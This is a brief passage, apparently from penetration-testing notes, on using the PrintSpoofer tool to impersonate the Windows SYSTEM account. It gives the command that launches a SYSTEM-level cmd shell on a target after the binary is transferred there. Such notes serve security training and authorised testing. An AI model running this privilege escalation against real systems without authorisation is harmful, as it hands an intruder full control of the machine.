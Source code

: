 ## Impersonating the Local SYSTEM Account with PrintSpoofer

after we have download the binary we just need to transfer it to our target and run the following command
```
command: .\spoofer64.exe -i -c cmd
```

